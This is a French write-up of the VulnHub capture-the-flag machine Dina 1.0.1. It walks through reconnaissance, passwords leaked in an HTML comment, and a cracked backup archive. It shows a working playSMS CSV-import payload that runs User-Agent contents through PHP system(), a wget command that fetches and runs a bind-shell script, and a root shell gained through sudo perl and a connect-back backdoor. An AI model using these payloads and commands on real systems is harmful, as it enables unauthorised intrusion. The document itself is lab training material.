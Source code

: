```yaml
---
title: "Solution du CTF Dina: 1.0.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


On continue les CTF de chez VulnHub avec le [Dina 1.0.1](https://www.vulnhub.com/entry/dina-101,200/) datant d'octobre 2017.  

#my secret webapp
-----------------

```plain
Nmap scan report for 192.168.1.48
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
23490/tcp filtered unknown
35921/tcp filtered unknown
55285/tcp filtered unknown
59929/tcp filtered unknown
59990/tcp filtered unknown
60771/tcp filtered unknown
```

Un seul port ouvert, un joli *It works* à la racine mais un *index.html* tout de même présent qui ne nous apporte rien de plus.  

On retrouve certains des dossiers présents dans le *robots.txt* avec un buster ainsi que des nouveaux :  

```plain
http://192.168.1.48/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/doc/ - HTTP 403 (236 bytes, gzip)
http://192.168.1.48/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.48/nothing/ - HTTP 200 (154 bytes, gzip)
http://192.168.1.48/secure/ - HTTP 200 (452 bytes, gzip) - Directory listing found
http://192.168.1.48/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/tmp/ - HTTP 200 (395 bytes, gzip) - Directory listing found
http://192.168.1.48/uploads/ - HTTP 200 (397 bytes, gzip) - Directory listing found
```

Les dossiers *ange1*, *angel1*, *tmp* et *uploads* sont vides.  

Sous */nothing* la page HTML contient un commentaire avec des mots de passe :  

```html
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

Ça devrait s'avérer utile...  

Justement il y a une archive *backup.zip* sous */secure/* qui semble nécessiter un mot de passe :  

```plain
$ unzip backup.zip
Archive:  backup.zip
   skipping: backup-cred.mp3         need PK compat. v5.1 (can do v4.6)

$ 7z x backup.zip

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

Processing archive: backup.zip

Extracting  backup-cred.mp3
Enter password (will not be echoed) :
```

Et en rentrant le mot de passe *freedom* on obtient un fichier *backup-cred.mp3* qui est en réalité un fichier texte :  

```plain
I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******

url : /SecreTSMSgatwayLogin
```

./webpwn
--------

On se rend sur l'URL en question qui présente une mire de login. On parvient à si connecter avec *touhid* / *diana*.  

Il s'agit de [playSMS](https://playsms.org/) qui se défini comme un *Free and Open Source SMS Gateway*.  

Un tour rapide de l'application et je tique assez vite sur la fonction d'import de fichiers sur phonebook.  

Vu que c'est une vrai application je préfère regarder [la liste des vulnérabilités connues](https://www.cvedetails.com/vulnerability-list.php?vendor_id=2477&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=1&trc=6&sha=8c0e7e35a77560b7cd811bce1ac0a63b8fcb526f) et, oh que le monde est petit, [un exploit écrit par l'auteur du challenge](https://www.exploit-db.com/exploits/42044/)... c'est un signe :)   

[Une vidéo de l'exploit](https://www.youtube.com/watch?v=KIB9sKQdEwE) est citée en référence et on voit qu'il faut uploader un CSV contenant du code PHP spécifique tout en ayant placé le code PHP à exécuter dans notre user-agent.  

Après avoir essayé l'un des switchers j'ai opté pour [celui-ci](https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake?utm_source=chrome-app-launcher-info-dialog) qui semble être le même que dans la vidéo.  

Le fichier CSV uploadé à cette forme (il doit respecter les colonnes du phonebook) :  

```plain
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

Ce qui permet alors l'exécution de commandes :  

![Dina VulnHub playSMS interface](/assets/img/dina_playsms.png)

Comme pour le précédent challenge j'ai eu recours à [tcp\_pty\_bind.py](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) qui s'avère bien pratique.  

Mon user-agent était alors *cd /tmp; wget http://192.168.1.6:8000/tcp\_pty\_bind.py; setsid python tcp\_pty\_bind.py&*  

```plain
$ ncat 192.168.1.48 31337 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.1.48:31337.
www-data@Dina:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

g0tr00t?
--------

Sympa ce petit shell mais un peu limité. Le shell définit pour *www-data* est bien */bin/sh*... mais il n'y a pas de sshd sur la machine... sniff.  

Il y a un utilisateur *touhid* qui pourrait être intéressant. Quelques fichiers dans son dossier Downloads mais ils ont le même hash md5 que ceux sous la racine web :-/   

A tout hasard, peut-on exécuter certaines commandes en tant que root ?   

```plain
www-data@Dina:/tmp$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

Bingo !  

Plus qu'à récupérer ce fameux [dc.pl](https://pastebin.com/raw/bq6Zbpya) (pas de quoi me rajeunir) et l'exécuter avec sudo.  

```plain
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.1.48.
Ncat: Connection from 192.168.1.48:49435.
--== ConnectBack Backdoor Shell EDITED BY XORON TURK?SH HACKER ==--

--==Systeminfo==--
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux

--==Userinfo==--
uid=0(root) gid=0(root) groups=0(root)

--==Directory==--
/tmp

--==Shell==--
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))

root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....

CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

Simple et rapide :p

*Published February 10 2018 at 16:00*
